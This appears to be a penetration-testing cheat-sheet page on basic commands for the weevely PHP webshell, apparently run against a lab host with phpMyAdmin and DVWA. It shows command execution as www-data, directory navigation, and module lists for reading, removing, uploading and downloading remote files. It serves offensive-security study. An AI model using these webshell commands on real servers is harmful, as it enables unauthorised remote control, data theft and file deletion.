# 02 - Basic Commands

Search Tag(s): #weevely #command-and-control #webshell #interactive-shell

## Execute

Using `:shell_sh` to execute commands

```
www-data@172.28.128.8:/var/www/phpMyAdmin $ shell_sh -h
The remote script execution triggers an error 500, check script and payload integrity
usage: shell_sh [-h] [-stderr_redirection STDERR_REDIRECTION] [-vector {system,passthru,shell_exec,exec,popen,proc_open,python_eval,perl_system,pcntl}]
                command [command ...]

Execute shell commands.

positional arguments:
  command               Shell command

optional arguments:
  -h, --help            show this help message and exit
  -stderr_redirection STDERR_REDIRECTION
  -vector {system,passthru,shell_exec,exec,popen,proc_open,python_eval,perl_system,pcntl}
www-data@172.28.128.8:/var/www/phpMyAdmin $ shell_sh ls
The remote script execution triggers an error 500, check script and payload integrity
CREDITS
ChangeLog
Documentation.html
Documentation.txt
INSTALL
LICENSE
..[truncated]..
user_password.php
view_create.php
webapp.php
```

## Navigation

Using `:file_cd` to navigate the files

```
www-data@172.28.128.8:/var/www/phpMyAdmin $ file_cd ../dvwa/vulnerabilities
The remote script execution triggers an error 500, check script and payload integrity
```

## File Manipulation

TODO: Fill this info

```
www-data@172.28.128.8:/var/www/phpMyAdmin $
```

:file_read                    Read remote file from the remote filesystem.
:file_cp                      Copy single file.
:file_rm                      Remove remote file.
:file_edit                    Edit remote file on a local editor.

## Upload and Download

```
:file_upload                  Upload file to remote filesystem.
:file_upload2web              Upload file automatically to a web folder and get corresponding URL.
```

```
:file_download                Download file from remote filesystem.
:file_webdownload             Download an URL.
```